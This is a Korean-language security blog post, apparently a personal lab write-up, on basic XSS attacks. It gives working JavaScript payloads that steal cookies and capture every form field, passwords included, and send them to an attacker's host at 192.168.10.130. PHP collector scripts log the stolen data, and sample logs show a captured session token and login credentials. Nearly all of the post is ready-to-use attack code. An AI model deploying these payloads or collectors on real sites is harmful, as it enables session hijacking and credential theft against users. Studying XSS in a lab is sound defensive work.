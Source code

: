 ```yaml
---
layout: post
title: XSS Basic
description: About the XSS
date: 2024-11-13 02:35:00 +0900
categories: [Technical Labs]
tags: [XSS]
pin: false
math: false
mermaid: false
image:
  path: commons/xss/title.webp
---
```

<!-- categories: [Technical Concepts Summarized, Technical Labs, Technical Terms, Useful Apps To Help With Technology] -->

## Overview
XSS을 이용한 기본적인 Session hijacking과 Form action hijacking을 구현해보고자 한다.

### Session Hijacking
JS code to inject into your website
```javascript
var cookieData = document.cookie; // 사용자의 쿠키를 가져온다.
var attackURL = "http://192.168.10.130/xss.php?cookie="; // xxx.php파일로 쿠키를 전달할 URL.
new Image().src = attackURL + cookieData; // 이미지의 경로로 URL을 전달하여 해당 URL를 실행시킨다.
```

Server code to receive the session
```php
$logFile = 'xss.log';
if (isset($_GET['cookie'])) {
    $cookieData = isset($_GET['cookie']) ? $_GET['cookie'] : 'No cookie';
    
    if (isset($_GET['cookie'])) {
        $logData = "[" . date('Y-m-d H:i:s') . "] Cookie: " . $cookieData . "\n";
    }
    file_put_contents($logFile, $logData, FILE_APPEND);
}
```

Saved files
```
[2024-11-12 09:53:02] Cookie: PHPSESSID=8l7socimgt2ef7ra8bbmhdn26f; jwt_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiMTUiLCJlbWFpbCI6IndoZ0BnbWFpbC5jb20iLCJleHAiOjE3MzE0Mzg0MDF9.IS8LaGsne0apR3JBms1chsH5UNYp6viKYts7ggPNNR8
```

<br>

### Form Action Hijacking
JS code to inject into your website
```javascript
document.addEventListener('DOMContentLoaded', function() { // 컨텐츠가 모두 로딩된 후 실행
  var form = document.querySelector('form');
  
  form.addEventListener('submit', function(event) { // 모든 form의 submit이 클릭될 때 실행
    // 모든 input 요소의 값을 수집합니다.
    var inputs = document.querySelectorAll('input');
    var data = [];

    inputs.forEach(function(input) {
        var id = input.id ? "id='" + input.id + "'" : "";
        var name = input.name ? "name='" + input.name + "'" : "";
        var value = input.value ? "value='" + encodeURIComponent(input.value) + "'" : "value='empty'";

        // id, name, value를 모두 포함한 데이터를 추가합니다.
        var combined = [id, name, value].filter(Boolean).join(", ");
        data.push(combined);
    });

    // 모든 입력 데이터를 연결하여 공격자 서버로 전송
    var attackURL = "http://192.168.10.130/xss.php?data=" + encodeURIComponent(data.join("; "));
    new Image().src = attackURL;
  });
});
```
- 모든 form의 모든 input을 로깅합니다.
- 공격자의 입장에서 저장된 값을 쉽게 파악할 수 있도록 input의 id와 name의 vaule를 함께 기록합니다.

Server code to receive the session
```php
$logFile = 'xss.log';
if (!empty($_GET)) {
  $logData = "[" . date('Y-m-d H:i:s') . "]\n";

  foreach ($_GET as $key => $value) {
      // 각 입력 필드의 키와 값을 로그에 저장
      $logData .= $key . " = " . $value . "\n";
  }

  $logData .= "---------------------------\n";

  // 로그 파일에 데이터 기록
  file_put_contents($logFile, $logData, FILE_APPEND);
}
?>
```

Saved files
```
[2024-11-12 18:06:40]
data = id='id_email', name='email', value='whg%40gmail.com'; id='id_password', name='password', value='1234'; value='on'
```
